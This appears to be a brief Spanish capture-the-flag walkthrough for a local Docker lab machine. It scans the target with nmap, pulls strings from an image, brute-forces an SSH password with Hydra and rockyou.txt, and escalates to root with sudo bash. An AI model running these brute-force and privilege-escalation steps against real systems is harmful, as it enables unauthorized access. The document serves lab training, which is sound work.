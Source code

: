 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![Pasted image 20250131105151](https://github.com/user-attachments/assets/50022a2a-e297-43b8-8ac5-4b5ca4cf54ce)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250131105319](https://github.com/user-attachments/assets/f10ac716-bf21-47c1-a98e-3b38347f9d98)

Nos metemos en la web:

![Pasted image 20250131105920](https://github.com/user-attachments/assets/9ef2f896-96a2-465b-a5f5-529637ebe513)

Descargamos imagen:

![Pasted image 20250131105905](https://github.com/user-attachments/assets/ae68660e-b295-43a5-af07-7ebf96f30aa8)

Buscamos cadenas con **strings**:

```Bash
strings imagen.jpeg
```

![Pasted image 20250131110034](https://github.com/user-attachments/assets/62b4d00f-f367-4fee-bbc4-faebc98148e4)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250131110218](https://github.com/user-attachments/assets/a3085079-db67-44b2-93ba-35095317bdb2)

Nos conectamos con **SSH**:

```Bash
ssh borazuwarah@172.17.0.2
```

![Pasted image 20250131110247](https://github.com/user-attachments/assets/c124d279-b88a-42fc-af1a-4519b6b4e1a0)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250131110321](https://github.com/user-attachments/assets/04112533-bb39-4bcd-b103-b5e6e6e37755)

```Bash
sudo bash
```

![Pasted image 20250131110401](https://github.com/user-attachments/assets/9d23bfaa-e543-4801-9c9e-8008133ec2e9)

```Bash
whoami
```

![Pasted image 20250131110425](https://github.com/user-attachments/assets/939f5a9f-758b-4d8a-8286-d95941210248)
